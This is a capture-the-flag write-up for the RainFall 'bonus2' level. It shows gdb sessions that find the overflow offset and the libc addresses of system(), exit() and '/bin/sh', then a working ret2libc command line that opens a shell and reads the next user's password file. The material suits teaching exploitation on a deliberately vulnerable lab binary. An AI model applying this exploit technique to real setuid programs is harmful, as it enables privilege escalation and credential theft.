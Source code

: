 Bonus2 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```

Bonus2 rights:
```Shell
bonus2@RainFall:~$ ls -la bonus2
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

Testing:
```Shell
bonus2@RainFall:~$ ./bonus2 KIKI KOKO
Hello KIKI
bonus2@RainFall:~$ ./bonus2 KIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIKI KOKO
Hello KIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIKOKO
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- it takes two arguments, of max size 40-bytes and 32-bytes
- it makes calls to `strcat()` and `strcpy()`, as well as a call to `greetuser()`
- it uses an environment variable to set the language of your choice.

Unfortunately, there is no easy way to open a shell. So we decided to try a `ret2libc` attack. For this, we need to:
- find the size of our payload to know where to overwrite `EIP`
- find the addresses of `system()`, `exit()` (unnecessary, but it is better practice for exiting cleanly) and the string `/bin/sh`.

Since the first arg is 40-bytes, we can just pad the whole thing with characters and generate a pattern for the second arg:
```Shell
(gdb) run
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
This gives us an offset of 18, which added to the previous 40 bytes equals 58. It means that the second arg will start with a padding of 18 characters.

Next, let's find all the addresses we need.
`system()` is \xb7\xe6\xb0\x60:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

`/bin/sh` is \xb7\xf8\xcc\x58:
```Shell
(gdb) find &system,+9999999,"/bin/sh"  
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

And `exit()` is \xb7\xe5\xeb\xe0:
```Shell
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

And this is the result:
```Shell
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
$ cat /home/user/bonus3/.pass
```
